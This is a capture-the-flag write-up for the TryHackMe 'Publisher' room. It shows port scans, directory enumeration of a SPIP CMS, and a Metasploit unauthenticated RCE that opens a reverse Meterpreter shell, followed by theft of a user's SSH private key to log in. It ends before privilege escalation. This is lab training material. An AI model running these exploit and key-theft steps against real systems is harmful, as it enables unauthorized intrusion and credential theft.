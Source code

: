 https://tryhackme.com/r/room/publisher


Scan all open TCP ports on target machine
```
root@ip-10-10-239-8:~# nmap -p- 10.10.166.246
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-12 20:39 GMT
Nmap scan report for 10.10.166.246
Host is up (0.00044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:15:0F:B7:95:61 (Unknown)
```

Scan specific open TCP ports for vulnerabilities and version
```
root@ip-10-10-239-8:~# nmap -p 22,80 -sVC 10.10.166.246 
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-12 20:41 GMT
Nmap scan report for 10.10.166.246
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
MAC Address: 02:15:0F:B7:95:61 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Run directory enumeration on the found http server in port 80
```
root@ip-10-10-239-8:~/Documents# gobuster dir -u http://10.10.166.246 -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.166.246
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 315] [--> http://10.10.166.246/images/]
/server-status        (Status: 403) [Size: 278]
/spip                 (Status: 301) [Size: 313] [--> http://10.10.166.246/spip/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```
results show a spip directory that looks uncommon
You can navigate to that directory and it shows you a spip CMS application running on the server

The next logical step is to enumerate through those directories as well. 
```
root@ip-10-10-239-8:~/Documents# gobuster dir -u http://10.10.166.246/spip/ -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.166.246/spip/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/LICENSE              (Status: 200) [Size: 35147]
/config               (Status: 301) [Size: 320] [--> http://10.10.166.246/spip/config/]
/ecrire               (Status: 301) [Size: 320] [--> http://10.10.166.246/spip/ecrire/]
/local                (Status: 301) [Size: 319] [--> http://10.10.166.246/spip/local/]
/prive                (Status: 301) [Size: 319] [--> http://10.10.166.246/spip/prive/]
/squelettes-dist      (Status: 301) [Size: 329] [--> http://10.10.166.246/spip/squelettes-dist/]
/tmp                  (Status: 301) [Size: 317] [--> http://10.10.166.246/spip/tmp/]
/vendor               (Status: 301) [Size: 320] [--> http://10.10.166.246/spip/vendor/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```
A few random directories are revealed. It's best to go through each one to see if they have anything interesting in them. 
Within the /ecrire directory there's an admin login page. 

When looking up spip with searchsploit you can view all of the common POC vulns for the application. 
Lets turn on msfconsole to see if there are any vulnerabilities on there that we can easily utilize.
```
searchsploit spip
msfconsole
```

The first option is spip_bigup_unath_rce
Lets set the options and exploit the webpage hosting the spip admin login page. 
```
msf6 exploit(multi/http/spip_bigup_unauth_rce) > set targeturi /spip 
targeturi => /spip
msf6 exploit(multi/http/spip_bigup_unauth_rce) > exploit 

[*] Started reverse TCP handler on 10.10.239.8:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] SPIP version 4.2.0 is vulnerable.
[*] Bigup plugin version detected: 3.2.1
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.0) and bigup version (3.2.1) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: EKNOtMYqq/6ugfpn9CwZU...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (40004 bytes) to 10.10.166.246
[*] Meterpreter session 1 opened (10.10.239.8:4444 -> 10.10.166.246:45292) at 2025-01-12 21:23:43 +0000

meterpreter > 
```
We were able to successfully get an metepreter shell with the exploit

We then enumerate the shell the machine. 
Check who we're currently logged in as. 
Display the contents and path of the current directory 
When navigating to the think home directory we can see that we're given permissions to read the user.txt flag
```
whoami 
ls -al 
cd /home/think
ls -al 
cat user.txt
```

We now have elevate our privileges to root somehow
First I noticed that I can download the id_rsa ssh private key of the think user to the host machine when inside the meterpreter.
```
cd /home/think/.ssh
download id_rsa
```
Now that I've downloaded the cert to my local machine I can use it to remotely login to the victim machine

From my kali machine is copy the ssh private key from the home directory into the /.ssh dir
I then need to change the permission of the file for it to be used in the ssh command. 
I can log in as user "think" now
```
cp id_rsa /root/.ssh/
chmod 600 id_rsa 
ssh -i id_rsa think@10.10.166.246
```

Not sure what to do now to elevate privileges since I don't know the users password. 
A possibility is to install linpeas or pyops to check for any vulnerable configurations on the target machine. 
I'll try that later.... 